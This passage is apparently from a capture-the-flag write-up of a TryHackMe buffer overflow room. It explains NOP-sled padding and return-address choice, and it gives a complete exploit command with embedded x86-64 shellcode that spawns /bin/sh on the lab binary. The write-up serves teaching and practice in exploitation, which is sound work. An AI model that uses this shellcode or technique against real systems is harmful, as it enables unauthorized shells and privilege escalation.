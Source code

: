    ```
    
    For our purpose, this is our malicious code. It is 54 bytes long, which is smaller than the offset that we have identified. 
    
## 3- Figure out the padding before and after the malicous code. 
There are three important ideas here. First, the total length of the offset must not change, so the length of the left-padding added with the length of the right padding must equal the value of the offset minus the 54 bytes of code. In mathematical terms, if `NL`, `NR` and `O` respectively designate the number of bytes of left padding, the number of bytes of right padding and the offset, we have: 
```
NL + 54 + NR = O
```
Second, the left padding must be filled with `NOPS` instructions (hex code `\x90`). The "no operation' code instructs the processor to skip to the next hex code. Thus, the left padding with `NOPS` gives us some manoeuver: if the instruction pointer lands on any `NOPS` instruction, it will be automatically forwarded towards the starting point of the malicious code. 

Third, the bytes in the right padding part should by any byte that is not seen as corrupted by the binary (see [Tib3rius' room](https://tryhackme.com/room/bufferoverflowprep) for a practical overview). For our purpose, the byte `\x41` (the letter A) works fine, but this may not be the case in all situations.

Fourth, there should be padding on both the right and left side, although it is better to put more padding on the left than on the right. There is no exact amount, saved for the cardinal rule that the total length must equal the offset (with the malicous code). 

## 4- Choose a memory address within the left padding
This address will be used to point the instruction pointer towards the malicious code. In practical situations, this could be done by trial and errors (or programmed within the malicious code). Here, we know from the previous sections where the function's memory starts. Consistent with the number of bytes for the left and right padding (numbers not shown), the example below uses "0x7fffffffe272" as the pointer redirection. Summing up, the following command can be used to perform the exploit: 
```
./buffer-overflow-2 $(python -c "print '\x90'*NL+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'  +'A'*NR+ '\x72\xe2\xff\xff\xff\x7f'")
```
For this command to function:
- `NL` and `NR` must be replaced by the proper numerical values; 
- One hexadecimal point must be changed to fit the needs of task 9 (see the comments related to Lige's write-up in section 2). 
- The hexadecimal address of the instruction pointer must be coherent with the values of `NL` and `NR`. 

With the proper modifications, one can get a sweet, sweet shell: 

![figure-5.png](figure-5.png)

Enjoy! 
